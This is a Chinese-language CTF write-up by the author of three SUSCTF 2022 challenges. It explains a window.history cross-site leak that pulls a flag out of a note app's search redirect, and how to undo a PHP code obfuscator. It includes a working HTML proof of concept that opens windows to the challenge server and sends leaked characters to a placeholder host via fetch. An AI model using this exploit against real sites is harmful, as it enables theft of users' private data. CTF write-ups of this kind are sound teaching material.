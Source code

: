 # checkin & ez\_note & rubbish maker wp

## checkin
请仔细阅读题目描述，bot只在对应的频道会有响应，PM的意思是私聊，私聊bot发送`>flag`即可获取flag
flag会在出现的短时间内被修改，录屏截图都行

## ez\_note

### tl;dr
xs leak window.history

### solution
首先要明确的一点是这个题不是XSS而是XS leak。为了增加迷惑性，我在反馈界面中让用户输入的是path而不是完整的url，在CSP中加入了`unsafe-inline`（实际上这个CSP是给跳转的js用的，但是我就是不用nonce），但实际上所有的输出点都使用的是ejs escape过的输出，并不存在XSS。以及每个用户只能看见自己的note，在创建note时有一定的说明，也可通过创建两个账号的方式来验证这一点。以及我在描述中明确了flag的格式，也是一种提示(大概)

附件中给出了bot访问url的逻辑，使用了node的URL类，我将base设置为了题目的站点，而用户输入则是path，但实际上，只要简单的阅读URL类的文档，就会发现在输入的path是一个绝对url的时候会直接忽略后面的base，如下所示

```javascript
let myURL = new URL('http://Example.com/', 'https://example.org/');
// http://example.com/

myURL = new URL('https://Example.com/', 'https://example.org/');
// https://example.com/

myURL = new URL('foo://Example.com/', 'https://example.org/');
// foo://Example.com/
```

至此即可让bot访问任意链接，网站中的搜索功能在只有唯一匹配的时候会进行一个重定向（并且搜索是非常常见的xs leak形式。。。），利用该重定向进行攻击

因为samesite属性是lax，且X-Frame-Option设定了same origin，所以只能靠开window的方式绕过上述两个限制，利用window.history属性完成leak。
最后将window调回自己的域就能跨过同源策略，判断history.length即可知道有无发生重定向

搜索功能那里webStorm给我联想了个search我就直接用了，没反应过来这个玩意支持正则，然后比赛时被redos打爆了。。。后来改成了indexOf

用的recaptcha导致好像师傅们做验证码做的有点痛苦。。。虽然已经调到用户最友好了，但是还是有师傅反馈基本百分百触发验证码。。。我个人测试的时候是没有这回事的，为此感到抱歉。。。。可能是比赛的时候访问量大了就严格起来了。

但是我为此调短了flag的长度，大概就做个十来次就能跑出来了呜呜

一个poc
```html
<!DOCTYPE html>
<html lang="en">
<body onload=exp()>
</body>
<script>
    function exp(){
        let charset = "1234567890_qwertyuiopasdfghjklzxcvbnm"
        for(let c of charset){
            test(c)
        }
    }
    function test(c) {
        let win = open("http://123.60.29.171:10001/search?q=SUSCTF{"+ c )

        setTimeout(()=>{win.location="http://ip"}, 2000)
        setTimeout(()=>{
            console.log(c)
            console.log(win.history.length)
            if(win.history.length === 3)
            {
                fetch("http://ip/?" + c)
            }
        }, 4000)
        setTimeout(()=>{
            win.close()
        }, 5000)
    }

</script>
</html>
```

## rubbish maker
这个题是基于 [PHP-Parser](https://github.com/nikic/PHP-Parser) 进行编写的。 可以在[这里](https://github.com/Z3ratu1/my_ctf_challenge/tree/main/SUSCTF2022/rubbish_maker)查看我的题目源码和题解 . 由以下四部分组成: `NameObfuscator`, `ScalarObfuscator`, `ControlFlowFlattener` , `LogicShuffler`.


专门用语法分析写了个混淆器，自我认为和之前那种一万个类找反序列化链还是不一样的，那种问题可以通过一些正则黑魔法之类的东西解决，而我希望的是师傅们能够用语法分析来编写一个反混淆器。为此还加了一些反调试的代码（但是我完全不会反调试，所以反调试的代码都是从网上复制粘贴的，再加了一个控制流平坦化阻止调试，这一切似乎有用）

反混淆主要是两个点，一个是开头那个巨大函数，那个函数收集了实际代码的所有函数调用二元操作等行为，然后后面的所有操作都通过调用这个函数获取。理论上来说，就是用来反调试的。函数的第一句定义了一个常量，之后都是用该常量和参数进行异或来获取返回值。我这里是用AST直接对所有的入口进行了还原，然而我看大部分师傅还是用的正则黑魔法。。。直接把函数用正则匹配出来然后执行获取返回值填回去。确实是一个很棒的思路，但是为什么还是正则黑魔法啊啊啊啊啊。

还原了这个函数之后其实后面的代码就很容易看懂了，唯一要去掉的就是一堆打乱的goto，再这里其实多观察一下就能发现，有很多goto是往回跳的，跳回去之后会发生无限循环。只要发现了往回跳的label是假label之后，基本上就没什么问题了。

剩下还有一些字符串和数字之类的混淆，用手解也能解出来。

就是为什么师傅们还是在用正则黑魔法，呜呜。

以及这里的goto本身我的思考逻辑是往回跳的都是假的goto，这样子混淆解起来会方便很多，switch处的eval本身应该是一个假eval，无法抵达，但是似乎在某些机缘巧合之下会使得往回跳的label能够使其正常得到赋值并进行命令执行，算是一个小小的非预期，不过混淆都解掉了也就无所谓后面的做法了